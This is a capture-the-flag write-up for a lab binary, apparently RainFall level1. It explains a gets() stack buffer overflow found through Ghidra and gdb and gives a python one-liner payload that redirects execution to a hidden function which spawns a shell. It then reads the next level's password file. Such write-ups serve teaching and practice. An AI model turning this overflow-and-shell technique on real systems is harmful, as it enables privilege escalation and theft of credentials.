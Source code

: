 # level1

For the level1 we have a script called level1 made by level2. After analyzing it in ghidra we can see that the main is extremely basic:

```c
void main(void)
{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

We also can see in the man of gets that this is a function that shouldn't be used at all coast because of it's overflow vulnerabily which sounds delightful for us.

We also can see that local_50 is a buffer of 76 character and indeed when executing level1, if we enter 76 or more characters, we get a segfault. (At 76 characters precisely we get an Illegal instruction to be precise).

After some reaserches on Buffer Overflow exploits we get to learn how to use gdb, a debugger program apparently that allows us to have a ton of details on the program.

Some commands for gdb launched with gdb ./level1:

```
r                   => run the program (run works too)
b main              => set a breakpoint when entering main
b * 0xffffffff      => set a breakpoint to a precise address
c                   => continue program (after a breakpoint)
set {int}0x<address>:0x<value>  => change a value while the program runs.
disas main          => disassemble a specific functions in order to obtains more infos such as addresses
ni                  => next instruction to go 1 by 1, line by line through the code
info registers      => show all values of registers variables
x/100xb $esp        => show the 100 first spaces of the stack (esp), can be an address 0xb0000000-20 to read 20 chars before the address
p main              => get the address of the main function
info proc mappings  => show starting address for heap, stack...etc
```

After checking a little more the code on ghidra, we also found a function called run(), that is not used anywhere:

```c
void run(void)
{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```

This seems very convenient, so we have to call this function somehow.
After some researches we understood that in the stack the code will be executed in some ways that after the buffer, will be the address of the return function. (where the function has to return to come back to main), if we replaced the address of the return function by the address of run() function, then instead of coming back to main, run would be called and the shell would be executed woth level2 rights.

```sh
(gdb) p run
$2 = {<text variable, no debug info>} 0x8048444 <run>
```

We now have the address of run, so we tried to inject in a file 'A' char 76 times and then the address of run function in hexadecimal so:

```sh
echo $(python -c "print('\x90'*76+'\x44\x84\x04\x08')") > /tmp/payload
```

The address has to be written upside down in order to be understood as a pointer address (this is called Little Endian format).
Executing it in gdb we get this:

```sh
(gdb) run < /tmp/payload
Starting program: /home/user/level1/level1 < /tmp/payload
Good... Wait what?

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

So the line is printed, but no shell opened. We tried different things to end up with:

```sh
level1@RainFall:~$ cat /tmp/payload -| ./level1
Good... Wait what?
> 
```

The - at the end of the cat is to leave stin open, so the shell can be opened.

```sh
> cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

